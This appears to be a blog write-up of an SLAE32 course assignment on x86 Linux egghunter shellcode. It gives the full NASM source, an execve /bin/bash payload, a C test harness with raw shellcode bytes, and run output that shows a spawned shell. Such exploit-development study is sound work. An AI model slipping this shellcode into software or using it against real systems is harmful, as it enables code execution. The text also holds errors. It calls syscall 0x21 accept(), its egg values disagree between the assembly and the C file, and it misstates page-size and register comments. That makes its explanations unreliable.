```yaml
---
title: SLAE32 Assignment 3 -- Egghunter Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)

## Overview
For our fourth assignment in the SLAE32 course we were tasked with creating an egghunter.  
What is an Egg Hunter?   
An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

## Egghunter Assembly Code
```nasm
; Filename: eggHunter.asm
; Author:   boku
global _start
_start:
; Configure Egg in EBX
  mov ebx, 0x29C09090  ; sub eax, eax + NOP + NOP
; Clear EAX, ECX, EDX
  xor ecx, ecx         ; Clears the ECX Register. 
  mul ecx              ; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX registers 
; Jump here to move forward a memory page
nextPage:              ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
  or dx, 0xfff         ; 0xfff = 4096. This is the size of Linux Memory pages.
; Jump here to move forward 4 bytes on a memory page
nextAddress:           ; Increments the memory address stored in EDX by 4 Bytes (a memory address in IA-32 bit)
  inc edx              ; in combo with the or dx above, this moves the memory scanner EDX by a page
                       ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the next memory address
 ; 4095*2=8190+1=8191. 
 ;                                      --> (inc edx) 4095+1  -->  (inc edx) 8191+1
 ; or dx when edx is: \x00000000        |   \x00001000 = 4096 |    \x00002000 = 8192
 ;               OR   \x00000FFF        |   \x00000FFF = 4095 |    \x00000FFF = 4095
 ;          RESULTS:  \x00000FFF = 4095--   \x00001FFF = 8191--    \x00002FFF = 12287
; Save the registers before accept() system-call because they will be altered after the call
 pusha                 ; Pushes all 16-bit registers onto the stack
 lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                       ;  Stores the value stored at EDX+4 into the EBX register
 mov al, 0x21          ; System Call for accept() 
 int 0x80              ; Executes accept()
; Check if memory page is accessible
 cmp al, 0xf2          ; The return value of accept() is stored in EAX. Checks if access is denied
; Load the registers that were stored onto the stack

 popa                  ; Pops all 16-bit registers from the stack
; if accept() could not access the memory page, go to the next page
 jz nextPage           ; If page access is denied, check the next memory page 
; if accept() could access the memory page, check if the egg is in the first memory location on the page
 cmp [edx], ebx
; if the egg is not there, then increment our location on the page by 1 byte and check there
 jnz nextAddress
; if the egg is there, check the next for bytes to make sure it is our payload and not the egghunter itself.
 cmp [edx+0x4], ebx
; if the egg isn't there then it is a fluke or is our egghunter. Check the next address.
 jnz nextAddress
; if the egg is there twice, then we found our payload. Jump to the memory location on that page
;  and transfer control to our payload.
 jmp edx
```

## Compiling and Testing the EggHunter
### Compiling the EggHunter Assembly Code
```nasm 
root# nasm -f elf32 eggHunter.asm -o eggHunter.o
root# ld -z execstack eggHunter.o -o eggHunter
```

### Compiling a Payload for the EggHunter to Find
#### SLAE32 Execve-Stack `/bin/bash` Shellcode
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com

global _start

section .text
_start:

; PUSH the first null dword
xor eax, eax
push eax
; PUSH ////bin/bash (12)
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```
#### Compiling the Payload
```console
t# nasm -f elf32 execve-stack.nasm -p execve-stack.o
root# ld -z execstack execve-stack.o -o execve-stack
```

#### Testing the Payload
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./execve-stack 
root# ps -p $$
  PID TTY          TIME CMD
  584 pts/5    00:00:00 bash
```

### Testing the EggHunter in a Host Program
#### Host Program in C
```c
// Filename: testEggHunter.c
// Author:   boku
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"
unsigned char payload[] =
egg
egg
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

unsigned char egghunter[] =
"\xbb"
egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2";

int main()
{
    printf("Memory Location of Payload: %p\n", payload);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

#### Compiling the Host Program 
```c
root# gcc testEggHunter.c -o testEggHunter -fno-stack-protector -z execstack
```

#### Testing the EggHunter in the Host Program
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./testEggHunter 
Memory Location of Payload: 0x804a040
Size of Egghunter:          39
root# ps -p $$
  PID TTY          TIME CMD
 3048 pts/5    00:00:00 bash
```
